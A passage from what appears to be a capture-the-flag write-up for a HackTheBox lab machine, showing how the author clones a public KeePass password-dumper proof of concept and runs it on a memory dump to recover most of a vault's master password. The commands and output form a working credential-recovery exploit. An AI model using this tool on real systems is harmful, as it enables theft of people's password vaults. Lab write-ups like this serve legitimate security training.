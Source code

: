 ```

```

This method is crude, but I can see the third character is likely “d”, and then “g” then “r”. This is what the exploit POCs will do, but a bit smarter to find the most likely key.

#### Exploit from Windows

From a Windows VM, the exploit is rather straight forward. I’ll clone the repo to my host and go into that directory (if `git` isn’t installed in your Windows VM, you can also download the ZIP from GitHub and unzip it):

```
PS C:\Users\0xdf > git clone https://github.com/vdohney/keepass-password-dumper
Cloning into 'keepass-password-dumper'...
remote: Enumerating objects: 111, done.
remote: Counting objects: 100% (111/111), done.
remote: Compressing objects: 100% (79/79), done.
remote: Total 111 (delta 61), reused 67 (delta 28), pack-reused 0
Receiving objects: 100% (111/111), 200.08 KiB | 3.45 MiB/s, done.
Resolving deltas: 100% (61/61), done.
PS C:\Users\0xdf > cd .\keepass-password-dumper\

```

Then I just need to `dotnet run [dump]`:

```
PS C:\Users\0xdf\keepass-password-dumper > dotnet run Z:\hackthebox\keeper-10.10.11.227\KeePassDumpFull.dmp
...[snip]...
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.:     d,
4.:     g,
5.:     r,
6.:     ø,
7.:     d,
8.:      ,
9.:     m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde

```
